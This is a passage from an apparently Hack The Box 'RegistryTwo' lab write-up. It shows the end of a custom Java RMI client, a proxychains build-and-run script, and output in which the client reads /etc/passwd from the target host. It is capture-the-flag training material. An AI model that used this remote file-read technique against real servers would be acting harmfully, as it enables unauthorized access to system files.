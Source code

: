 ```java
        } catch (Exception e) {
            System.err.println(e.getMessage());
        }
        return false;
    }

    public static boolean CreateDir(String vhost, String filePath){
        try {
            AbstractFile remoteFile = RMIClientWrapper.get().getFile(vhost, filePath);
            return RMIClientWrapper.get().createDirectory(vhost, remoteFile.getAbsolutePath());
        } catch (Exception e) {
            System.err.println(e.getMessage());
        }
        return false;
    }
}
```

During development I had to clean up the `*.class` files and rebuild the java files, so I wrote a small script that does that and additionally runs the main program with proxyhchains. 

```bash
rm -rf com/htb/hosting/rmi/*.class
rm -rf *.class
javac Main.java com/htb/hosting/rmi/* -d .
proxychains -q java Main 
```

The `PrintFile` method successfuly printed the content of `/etc/passwd` 

```bash
┌──(ar0x㉿kali)-[~/…/Machines/RegistryTwo/RMIClientTest/src]
└─$ ./runner.sh
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Dec 02, 2023 9:36:07 AM com.htb.hosting.rmi.RMIClientWrapper get
INFO: Connecting to registry.webhosting.htb:9002
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
```